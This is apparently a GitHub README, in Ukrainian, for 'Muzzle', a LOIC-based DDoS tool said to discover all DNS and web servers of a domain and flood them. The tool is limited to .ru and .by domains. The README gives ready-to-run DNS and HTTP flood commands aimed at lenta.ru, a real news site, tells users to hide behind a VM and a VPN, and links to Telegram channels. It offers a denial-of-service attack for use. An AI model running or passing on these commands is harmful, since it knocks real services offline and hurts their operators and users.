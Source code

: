 #hoo

#Чому?

Сучасні інструменти для створення тиску на сайти мають деяки або усі проблеми, особливо для недосвідчених користувачей:

1. Декілька компонент які мають буті встановлені та налаштовані (python etc.)
2. Багато спеціалізованих параметрів котрі не є зрозумілими для новачків.
3. Одна ip адреса тиску при тому що сучасні системи мають декілька веб- та днс серверів.

#Рішення
Muzzle - простий у використанні ддосер на основі ЛОІСу, котрий виявляє всі DNS та Web сервери пов'язані з певним доменом та створює їм стресові умови.
Програма дозволяє тиск тільки на .ru та .by домени. Ми допомагаемо браттям, але тікому іншому.

#Встановлення та налаштування

1. Любі інструменти такого роду мають встановлюватись на віртуальну машину для безпеки.
2. Користуйтесь VPN. Наприклад https://clearvpn.com пропонує безкоштовний аккаунт на рік при використанні промо коду SAVEUKRAINE.
3. Обирайте ціль та запускайте прогу.

#Приклади команд

muzzle sniff -d lenta.ru
	Виявити та роздрукувати DNS та Web сервери пов'язані з доменом lenta.ru.

muzzle dns-flood -d lenta.ru
muzzle dns-flood -d lenta.ru -t 25
	Тиск на всі DNS сервери що належать lenta.ru по UDP порту 53. 
	Кількість одночасних з'єднань до кожного сервера (потоків) - параметр -t, за змовчуванням - 40.
	Зростання показника Requested - це добре.

muzzle http-flood -d lenta.ru
muzzle http-flood -d lenta.ru -t 35
	Тиск на всі Web сервери що належать lenta.ru по TCP порту 80 (HTTP). 
	Кількість одночасних з'єднань до кожного сервера (потоків) - параметр -t, за змовчуванням - 40.
	Зростання показника Downloaded або принаймні Requested - це добре.

muzzle help 
	Перелік команд.

muzzle version
	Роздрук версії програми.

Повідомлення про нові версії: https://t.me/getmuzzle
Питання та пропозиції: https://t.me/+guqhldDxOMw4YWUx
